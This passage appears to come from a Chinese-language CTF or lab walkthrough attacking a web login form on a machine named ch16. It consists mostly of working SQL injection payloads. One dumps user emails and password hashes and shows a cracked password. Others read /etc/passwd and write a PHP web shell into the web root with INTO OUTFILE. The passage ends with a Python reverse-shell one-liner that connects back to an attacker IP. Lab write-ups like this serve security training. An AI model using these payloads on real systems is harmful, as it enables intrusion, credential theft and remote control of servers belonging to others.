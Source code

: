 <8>查内容

```bash
email=admin' union select 11,22,33,group_concat(concat_ws(':',email,pass)),55,66,77,88 from ch16.users#
（回显结果：admin@isints.com:c2c4b4e51d9e23c02c15702c136c3e950ba9a4af）
（解密后为 killerbeesareflying）
```

结果只有一个应该就是网站登录的账号密码，但以 ch16.users 拿到的用户凭据登录网站会提示 WAF 拦截。mysql.user 可以获取到两个凭据，但解密不出

> 从 ch16.users 获取到邮箱和密码 admin\\@isints.com:killerbeesareflying

### <3>SQLi 文件读写 反弹 shell

<9>发现可以`load_file` 读取本地文件

```bash
email=admin' union select 11,22,33,load_file('/etc/passwd'),55,66,77,88 #
```

<10> `/var/www`写入文件`shelltest.php` 内容为一句话，需要注意的是所导出的文件名一定要是网站中不存在的，不然也不会成功

```bash
email=' union select 11,22,33,"<?php system($_POST['x']);?>",55,66,77,88 into outfile '/var/www/shell4.php'#&pass=1234&submit=Login&submitted=TRUE
```

<11>验证`outfile`是否成功，发现成功写入

```bash
email=admin' union select 11,22,33,load_file('/var/www/shell4.php'),55,66,77,88 #
```

<12>python 反弹 shell 成功

```bash
export RHOST="10.10.10.23";export RPORT=2233;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
